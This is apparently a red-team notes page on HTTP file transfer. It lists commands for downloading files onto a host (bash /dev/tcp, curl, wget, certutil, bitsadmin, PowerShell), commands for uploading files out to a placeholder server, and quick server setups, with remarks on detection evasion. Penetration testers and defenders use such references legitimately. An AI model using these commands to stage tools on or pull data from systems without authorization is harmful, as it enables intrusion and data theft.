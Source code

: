 ```yaml
---
title: HTTP File Transfer
---
```


[[notes/file-transfer/index]] over the [[notes/network/http]] protocol.

# Download via GET

Pure Bash ([source](https://pastebin.com/H0EJLdjc)).

~~~ bash
function curl() {
  exec 3<> "/dev/tcp/$1/$2"
  echo -en "GET $3 HTTP/1.0\r\nHost: $1\r\n\r\n" >&3
  (
    while read line; do
      [[ "$line" == $'\r' ]] && break
    done && cat
  ) <&3
  exec 3>&-
}
curl 192.0.2.1 8080 /input.bin > ./output.bin
~~~

Common Linux utilities.

~~~ bash
curl -o ./output.bin http://192.0.2.1:8080/input.bin
wget -O ./output.txt http://192.0.2.1:8080/input.txt
~~~

`curl.exe` is preinstalled since Windows 10.

Windows builtins.

~~~ bat
certutil.exe -urlcache -f http://192.0.2.1:8080/input.bin .\output.bin
bitsadmin.exe /transfer myjob http://192.0.2.1:8080/input.bin %cd%\output.bin
~~~

> **OpSec:** Mature organizations probably have detection rules for the Windows builtins.

PowerShell variants.

~~~ powershell
iwr http://192.0.2.1:8080/input.bin -useb -outf .\output.bin
Invoke-WebRequest -Uri http://192.0.2.1:8080/input.bin -UseBasicParsing -OutFile .\output.bin
irm http://192.0.2.1:8080/intput.txt > ./output.txt
Invoke-RestMethod http://192.0.2.1:8080/intput.txt > ./output.txt
(New-Object System.Net.WebClient).DownloadFile('http://192.0.2.1:8080/input.bin',"$(pwd)\output.bin")  # blocked in clm
~~~

Configure PowerShell `WebClient` to use a HTTP proxy.

~~~ powershell
$c = New-Object System.Net.WebClient
$c.proxy = [Net.WebRequest]::GetSystemWebProxy()
$c.proxy.credentials = [Net.CredentialCache]::DefaultCredentials
$c.DownloadFile('http://192.0.2.1:8080/input.bin',"$(pwd)\output.bin")
~~~

# Upload via PUT

Linux and Windows utility.

~~~ bash
curl -T ./input.bin http://192.0.2.1:8080/output.bin
~~~

PowerShell.

~~~ powershell
(New-Object System.Net.WebClient).UploadFile('http://192.0.2.1:8080/output.bin', "$(pwd)\input.bin")  # blocked in clm
~~~

# Server

Python.

~~~ bash
python3 -m http.server 8080
python2 -m SimpleHTTPServer 8080
~~~

PHP.

~~~ bash
php -S 0.0.0.0:8080
~~~

Ruby.

~~~ bash
ruby -run -e httpd . -p 8080
~~~

Linux Busybox.

~~~ bash
busybox httpd -f -p 8080
~~~

Nginx with authentication and file upload.

`./nginx.conf`:

~~~
http {
  server {
    server_name localhost;
    listen 80 default_server;
    listen [::]:80 default_server;

    auth_basic "Restricted";
    auth_basic_user_file ./htpasswd;

    location / {
      root ./srv;
      dav_methods PUT;
      dav_access user:rw group:rw all:r;
      create_full_put_path on;
      autoindex on;
      client_max_body_size 128m;
    }
  }

  client_body_temp_path ./tmp;
  access_log /dev/stdout;
  log_not_found off;

  sendfile on;
  tcp_nopush on;
  tcp_nodelay on;
  types_hash_max_size 4096;

  server_tokens off;

  charset utf-8;
  default_type application/octet-stream;
  types {
    text/css css;
    text/html html;
    text/javascript js;
  }
}

events {
  multi_accept on;
  worker_connections 1024;
}

pid /dev/shm/nginx.pid;
worker_processes auto;
worker_rlimit_nofile 2048;
daemon off;
pcre_jit on;
error_log /dev/stderr;
~~~

~~~ bash
mkdir ./srv ./tmp
echo "admin:$(echo 'passw0rd' | openssl passwd -stdin -apr1)" > ./htpasswd
nginx -p . -c ./nginx.conf
~~~

Untested tools:

- [skyhook](https://github.com/blackhillsinfosec/skyhook), HTTP file server with builtin transport obfuscation
- [updog](https://github.com/sc0tfree/updog), HTTP file server with up- and download

References:

- [twitter.com/RedTeamTactics/status/1689649961544425474](https://twitter.com/RedTeamTactics/status/1689649961544425474), upload to Azure Blob Container with `curl`
